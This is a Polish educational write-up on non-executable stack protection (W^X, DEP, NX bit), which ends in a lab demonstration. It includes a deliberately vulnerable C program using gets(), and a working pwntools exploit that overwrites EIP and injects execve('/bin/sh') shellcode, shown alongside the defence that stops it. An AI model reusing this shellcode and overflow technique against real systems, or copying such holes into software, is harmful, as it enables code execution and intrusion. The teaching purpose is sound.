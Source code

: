 # 1.Executable space protection

### 1.1 Różne sposoby radzenia sobie z obszarami pamięci, do którym można pisać i które można wykonywać

Dość ważny aspektem bezpieczeństwa jest rozdzielanie uprawnień obszarom pamięci. Pamięć oznaczona jednocześnie jako W (write) i X (execute) stwarza realne zagrożenie, bo pozwala na wykonanie dowolnego kodu przez atakującego.

Problem rozwiązywany jest zarówno sprzętowo, jak i w oprogramowaniu.

Ważna jest polityka (W^X) - mówiąca, że dana strona pamięci może być tylko i wyłącznie albo wykonywalna, albo można do niej pisać. Polityka ta została wprowadzona w OpenBSD 3.3 w 2003 roku. Polityka jest dość dobrą obroną przed atakami buffer overflow.

Odpowiedzią Microsoftu było DEP (Data Execution Preventon) wprowadzone w Windows XP zawierające szereg zabezpieczeń - między innymi obsługę `NX-bit` oraz póżniej ASLR.

Obecnie sprzętowym sposobem realizacji jest tak zwany `NX-bit` odpowiadający właśnie za wykonywalność pamięci. Z tego właśnie korzystać jądro Linuxa, jeżeli procesor obsługuje tą funkcje.

W innym przypadku możliwa jest również emulacja tej funkcjonalności (przykład Exec Shield i PaX). Emulacja jest jednak dość kosztowna.

Na Linuxie do ręcznego ustawienia uprawnień obszaru służy syscall `mprotect()`. Wywoływany z odpowiednimi flagami oraz adresami pamięci.

W współczesnym świecie dobre rodzielanie uprawnień obszarom pamięci jest dość znane i implementowane jako domyślne funkcje w najczęstszych przypadkach. Takim przypadkiem jest niewykonywalność stosu wywołań, który postaram się zeksploitować w następnych punktach.

### 1.2 Opis

`gcc` defaultowo włącza non-executable stack - można go wyłączyć flaga `-z execstack`.

Tak samo zachowuje się `clang`. 

Jest to argument przekazywany do linkera, który mapuje proces na przestrzeń adresów. Wtedy też przestrzeń przeznaczona na stos jest oznaczana jako `RWX`.


Obecnie niektóre stare binarki linuxowe mogą wymagać wykonywalnego stosu, dlatego też opcja może zostać włączona. Wykonywalny stos był niegdyś prawie, że dodatkową funkcja.

Jest to związane z tym jak kompilator `gcc` zachowowywał się w przypadku `nested function`. Kompilator wtedy odkłada na stosie tak zwaną trampolinę - czyli kod, który musi być wykonywalny na stosie. Obecne problem rozwiązywany jest bez wykonywalnego stosu za pomocą deskryptorów.

Wykonywalny stack jest pokonywany za pomocą oznaczenia pamięci stacku jako niewykonywalnej. Nie ma tu żadnego spadku wydajności, jedynie ewentualnie problemy z kompatybilnością ze starymi plikami.

Wyłączenie wykonywalnego stosu jest dość podstawową metodą obrony przez eksploitacją binarną aplikacji i następne metody uwzględniają tą metodę jako uwzględnioną.

Oznaczenie pamięci jako niewykonywalna obecnie najcześciej odbywa się za pomocą ustawienia flagi `NX` w tablicy strony.

Implementacje na różnych systemach nie różnia się zbytnio.

### 1.3 Proof of concept - atak na wykonywalny stos
Pierwszym omówionym exploitem i obroną przed nim bedzie wykonywalny stack.

Kod programu, który bedzie exploitować jest następujący:

```c
// gcc vuln.c -no-pie -std=c99 -m32 -fno-stack-protector -z execstack -w -o vuln.o

#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void ask_for_name()
{
    char name[12] = {0};
    puts("What's your name?");
    gets(name);
    if(strlen(name) > 12) {
        puts("Nope, it's too long for me");
        exit(1);
    }
    printf("Hi %s!\n", name);
}

int main()
{
    ask_for_name();
    return 0;
}
```

Błędem jest użyta tu funkcja `gets()` i pozornie działające sprawdzenie długości inputu.

Dokumentacja `strlen()` mówi, że funkcja sprawdza dlugość do otrzymania `x00`. Taki znak możemy dokleić na końcu inputu, aby przepełnić bufor.

Używając pythona i pakietu pwntools postaram się wykorzystać ten błąd.

Schemat exploitacji jest następujący:

* ustalić miejsce w pamięci, w którym nadpisujemy adres powrotu
* ustalić miejsce w pamięci, w którym znajduje się bufor
* nadpisać adres powrotu adresem bufora, w którym znajduje się nasz kod.

```python
from pwn import *

p = process("./vuln.o")

p.readuntil("What's your name?\n")

name = "a"*8+"\x00"+"a"*15
```

Exploit omija sprawdzenie. 

Podłączając do processu debugger jestem w stanie ustalić jak dużo `a` muszę wysłać, aby nadpisać rejestr `eip`, który odpowiada za powrót z funkcji.

w przypadku podania 16 znaków następna nadpisana pamięć wpada w rejestr `eip`.

Wysłałem wiadomość:
```python
name = "a"*8+"\x00"+"a"*15 + '\x00\x00\x00\x00'
```
![img_2.png](img_2.png)

Rejestr został nadpisany.

Z debuggera wyciagam adres miejsca,w którym nadpisuje dane.

Adres ten jest stały, bo nie używamy ani PIE ani ASLR.

Dopisując do naszej wiadomości adres bufora powiększony o offset generowany przez poprzednie wiadomości uda nam się skierować wykonywanie programu na złośliwy kod, który jesteśmy w stanie wstrzyknąć za adresem.

```python
name += "\x20\xd2\xff\xff"
```


W tym momencie wystarczy do stringa name dokleić shellcode wywołujący execve i odpowiednimi parametrami. Shellcode ten zaczerpnałem ze strony `http://shell-storm.org/shellcode/files/shellcode-811.php`.

Jest to shellcode w assemblerze ładujący odpowiednie argumenty do odpowiednich rejestrów i wywołujący funkcje execve syscallem z argumentami wskazującymi na `bin/sh`.

```python
name += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
```

Cały exploit wygląda następująco:

```python
from pwn import *

p = process("./vuln.o")

p.readuntil("What's your name?\n")

name = "a"*8+"\x00"+"a"*15 # inject aaaas till eip
name += "\x20\xd2\xff\xff" # inject address of shellcode to eip
name += "\x31\xc0\x50\x68\x2f\x2f\x73"+"\x68\x68\x2f\x62\x69\x6e\x89"+"\xe3\x89\xc1\x89\xc2\xb0\x0b"+"\xcd\x80\x31\xc0\x40\xcd\x80" #shellcode to spawn shell

p.sendline(name)

p.interactive()

```


Exploit działa na programie skompilowanym z wykonywalnym stackiem. Widzimy tu interaktywny shell.

![img.png](img.png)

Natomiast skompilowany bez flagi pozwalającej na wykonywanie kodu na stacku nie działa. Program zakończył działanie sygnałem SIGSEGV.

![img_1.png](img_1.png)


### 1.4 Wnioski

Kontrolowanie tego czy dane miejsce w pamięci może wykonywać kod jest ważna i pozwala zapobiegać najprostszym atakom typu buffer overflow. Jednak nie jest to remedium na wszystkie ataki.

Ataki typu ROP lub RET2LIBC, które bedą prezentowane w dalszej częsci projektu mogą być wykonane z `nonexec` stosem. Jest to zabezpieczenie dość proste i konieczne.

